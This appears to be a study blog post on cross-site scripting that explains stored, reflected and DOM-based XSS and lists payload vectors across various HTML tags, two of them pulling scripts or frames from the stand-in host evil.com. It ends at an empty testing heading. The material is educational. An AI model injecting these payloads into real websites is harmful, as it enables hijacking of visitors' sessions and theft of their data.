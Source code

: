 ```yaml
---
layout: post
title: "Cross Site Scripting (XSS) Vulnerabilities"
date: 2023-09-09
image: ../../assets/img/Posts/xss2.png
categories: [HackTheBox, Starting_Point]
tags: [docker, trilium, notes, ubuntu, self-hosted]
---
```




# CROSS SITE SCRIPTING (XSS) VULNERABILITY

>- IS A CLIENT-SIDE CODE INJECTION ATTACK
>- EXECUTES MALICIOUS SCRIPTS IN A WEB BROWSER
>- ACTUAL ATTACK OCCURS WHEN VICTIM VISITS D WEB PAGE THAT EXECUTE MALICIOUS CODE

## CAUSES OF XSS
- UNSANITIZED USER INPUT
- XSS ARE POSSIBLE IN VBSCRIPT, ACTIVEX, AND EVEN CSS. BUT MOST COMMON IS JAVASCRIPT AS IT IS THE FUNDAMENTAL TO BROWSING EXPERIENCE.

## TYPES OF XSS
- SELF XSS
- STORED XSS (MOST DAMAGING)
		An attacker uses Stored XSS to inject malicious content (referred to as the payload), most often JavaScript code, into the target application. If there is no input validation, this malicious code is permanently stored (persisted) by the target application, for example within a database. For example, an attacker may enter a malicious script into a user input field such as a blog comment field or in a forum post.
		When a victim opens the affected web page in a browser, the XSS attack payload is served to the victim’s browser as part of the HTML code (just like a legitimate comment would). This means that victims will end up executing the malicious script once the page is viewed in their browser.

- REFLECTED XSS (2ND MOST DAMAGING)
		the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server. The reflected XSS payload is then executed in the user’s browser.
		Reflected XSS is not a persistent attack, so the attacker needs to deliver the payload to each victim. These attacks are often made using social networks.

- DOM-BASED XSS (STANDARD)
		A DOM-based XSS attack is often a client-side attack and the malicious payload is never sent to the server. This makes it even more difficult to detect for Web Application Firewalls (WAFs) and security engineers who analyze server logs because they will never even see the attack. DOM objects that are most often manipulated include the URL (document.URL), the anchor part of the URL (location.hash), and the Referrer (document.referrer).


## XSS ATTACK VECTORS
- `<script>` TAG
```bash
		 <!-- External script -->
		 <script src=http://evil.com/xss.js></script>
		 <!-- Embedded script -->
		 <script> alert("XSS"); </script>
```

- `jAVASCRIPT EVENTS [onload and onerror]`
```bash
		 <body onload=alert=("XSS")>
```

- `<body> tag`
```bash
		<body background="javascript:alert("XSS")">
```

- `<img> tag`
```bash
		<!-- <img> tag XSS -->
		<img src="javascript:alert("XSS");">
		<img """><script>alert("XSS")</script>"\>
		<!--  tag XSS using lesser-known attributes -->
		<img dynsrc="javascript:alert('XSS')">
		<img lowsrc="javascript:alert('XSS')">
```

- `<table> tag`
```bash
		<!-- <table> tag XSS -->
		<table background="javascript:alert('XSS')">
		<!-- <td> tag XSS -->
		<td background="javascript:alert('XSS')">
```
- `<iframe> tag`
```bash
		<!-- <iframe> tag XSS -->
		<iframe src="http://evil.com/xss.html">
```

- `<input> tag`
```bash
		<!-- <input> tag XSS -->
		<input type="image" src="javascript:alert('XSS');">
```

- `<link> tag`
```bash
		<!-- <link> tag XSS -->
		<link rel="stylesheet" href="javascript:alert('XSS');">
```

- `<div> tag`
```bash
		<!-- <div> tag XSS -->
		<div style="background-image: url(javascript:alert('XSS'))">
		<!-- <div> tag XSS -->
		<div style="width: expression(alert('XSS'));">
```

> ETC....

## Testing for XSS Vulnerabilities
